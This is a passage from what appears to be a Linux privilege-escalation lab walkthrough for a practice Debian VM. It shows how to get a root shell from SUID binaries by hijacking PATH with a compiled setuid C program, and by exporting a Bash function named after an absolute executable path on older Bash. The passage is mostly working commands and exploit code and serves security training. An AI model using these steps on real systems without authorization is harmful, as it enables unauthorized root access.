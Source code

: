 2. Run strings on the file to look for strings of printable characters:

```
strings /usr/local/bin/suid-env
```

One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

3. Create service.c with the following:

```
int main() {
        setuid(0);
        system("/bin/bash -p");
}

```

4. Compile the code located at /home/user/tools/suid/service.c into an executable called service. This code simply spawns a Bash shell:

```
gcc -o service /home/user/tools/suid/service.c
```

5. Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:

```
PATH=.:$PATH /usr/local/bin/suid-env
```

##  SUID / SGID Executables - Abusing Shell Features (#1) 

The /usr/local/bin/suid-env2 executable is identical to /usr/local/bin/suid-env except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

1. Verify this with strings:

```
strings /usr/local/bin/suid-env2
```

In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

2. Verify the version of Bash installed on the Debian VM is less than 4.2-048:

```
/bin/bash --version
```

3. Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

```
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```
